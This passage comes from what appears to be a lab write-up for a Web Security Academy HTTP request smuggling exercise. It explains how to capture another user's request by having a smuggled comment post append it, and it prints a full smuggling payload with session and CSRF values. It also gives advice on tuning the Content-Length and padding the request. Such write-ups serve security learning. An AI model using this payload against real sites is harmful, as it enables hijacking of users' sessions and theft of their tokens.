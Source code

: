 If a 404 returns, it confirms the vulnerability exists and can be exploited. For example, to capture a user's token, the smuggled request can be modified to a POST request that sends a comment. The comment parameter should also be at the end of the request because after the attack request is sent and followed up with a normal request, the normal request should be appended as a comment to the request body parameter comment.

```http
POST / HTTP/1.1
Host: 0aa5002804d9b01881aa9357000e0000.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 104
Transfer-Encoding: chunked

0

POST /post/comment HTTP/1.1
Host: 0aa5002804d9b01881aa9357000e0000.web-security-academy.net
Cookie: session=RYRzI4QO9hZZ0qqB2vpqoIIG9miSHGFI
Content-Length: 117
Content-Type: application/x-www-form-urlencoded

csrf=faNM8kPLgh17xV3xma7BEoudjTS7OGlB&postId=5&name=test&email=test%40test.net&website=http%3A%2F%2Ftest&comment=test
```

>[!info]
>The CSRF and session values should be valid ones found when performing a valid comment post request since they are tied together. If they are invalid values, when the smuggled request gets triggered, it will fail and no comment will be made.

To calculate the CL for the smuggled request, the value should be increased as when the user is browsing the site, you want as much of the request as possible to be appended to grab the token. An initial way to gauge the number to increase it by is via looking at a normal GET request for `/`, selecting all the text and observing the content length and adding it to 117 (in this case):

![[Inspector.png]]

In this case, the CL would be 907 as a starting value. If enough is not seen from the headers, it can be increased.

>[!info]
>If the normal request is sent after the attack request and a 302 is found, it means it was appended and a comment was posted. When a 200 comes back to the normal request, it means another user has triggered it.

Think about the content length of the normal request as a value of 11 won't be enough since the attack request is expecting a length of 907. Check what the normal request length is:

![[164 bytes.png]]

The value is less than the expected length of 907 bytes. The back-end will keep waiting for the bytes to come in and will eventually time out. To make sure it does not, try padding the request to reach 907 bytes at least. A safe way is by adding a bunch of new lines:

![[New lines.png]]
